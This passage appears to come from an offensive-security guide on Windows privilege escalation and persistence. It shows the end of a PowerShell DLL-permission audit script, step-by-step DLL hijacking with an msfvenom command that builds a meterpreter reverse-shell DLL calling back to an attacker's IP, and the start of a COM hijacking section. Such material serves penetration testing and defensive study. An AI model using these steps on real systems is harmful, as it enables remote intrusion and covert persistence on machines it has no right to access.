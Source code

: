 ```powershell
                    "Failed to retrieve ACL for DLL: $cleanDLLPath" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
                    "`n" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
                }
            }
        }
    }
    catch {
        # Log any error retrieving DLLs for the process
        "Failed to retrieve DLLs for process: $($process.Name) (PID: $($process.Id))" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
        "`n" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
    }
}
```

## Exploiting DLL Hijacking

#### Step 1: Create a Malicious DLL
To exploit DLL hijacking, first create a malicious DLL payload. You can use `msfvenom` to generate a DLL payload that will execute a reverse shell or similar malicious code:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f dll -o malicious.dll
```

#### Step 2: Place the Malicious DLL in the Target Directory
Once the DLL is generated, place it in the directory where the vulnerable service or application will load it. Ensure the directory has appropriate permissions for the DLL to be executed:
```powershell
Copy-Item -Path "C:\Path\To\malicious.dll" -Destination "C:\Vulnerable\Directory\malicious.dll"
```

#### Step 3: Restart the Service or Program
After placing the malicious DLL in the appropriate directory, restart the vulnerable service or application to trigger the loading of your malicious DLL:
```powershell
Restart-Service -Name "<service_name>"
```
Or restart the target program manually, depending on the context of the hijacking.

# Component Object Model (COM) Hijacking

COM Hijacking is a method used to maintain persistence on a Windows host by registering or hijacking a COM object, causing it to load a malicious DLL or executable when invoked by the system.

#### View Registered COM Objects
To enumerate COM objects currently registered on the system:
```powershell
Get-ItemProperty -Path 'HKCU:\Software\Classes\CLSID\'
```
This retrieves information about COM objects under the current user's context, but it can also be done system-wide:
```powershell
Get-ItemProperty -Path 'HKLM:\Software\Classes\CLSID\'
```
